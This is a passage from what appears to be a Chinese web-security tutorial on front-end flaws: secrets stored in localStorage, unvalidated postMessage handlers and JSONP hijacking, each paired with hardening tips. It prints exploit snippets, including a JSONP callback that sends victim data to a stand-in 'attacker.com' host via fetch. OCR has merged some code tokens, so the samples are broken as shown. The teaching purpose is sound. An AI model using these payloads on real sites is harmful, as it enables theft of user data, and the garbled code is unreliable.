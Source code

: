 1. 2. 检查localStorage存储内容  
  
1. 3. 查找API密钥、会话令牌等敏感数据  
  
**典型案例**  
：  
```
localStorage.setItem('apiKey', 'sk_live_1234567890abcdef')
```  
### 6、postMessage跨域泄露  
  
**漏洞验证代码**  
：  
```
window.addEventListener('message', (e) => {
    // 未验证来源直接处理
    document.getElementById('data').innerHTML = e.data
})
```  
  
**攻击利用**  
：  
```
<iframesrc="https://target-site.com">
<script>  const iframe = document.querySelector('iframe')  iframe.contentWindow.postMessage('恶意内容', '*')</script>
```  
  
**安全加固**  
：  
- • 严格验证event.origin  
  
- • 限制消息处理范围  
  
### 7、JSONP劫持检测  
  
**特征识别**  
：  
```
callback = request.query.callback
response.send(`${callback}(${data})`)
```  
  
**漏洞利用**  
：  
```
<script>functionstealData(data) {    fetch('https://attacker.com?data='+btoa(JSON.stringify(data)))}</script>
<scriptsrc="https://api.vuln.com/userinfo?callback=stealData"></script>
```  
  
**防护方案**  
：  
- • 弃用JSONP改用CORS  
  
- • 添加CSRF Token验证  
  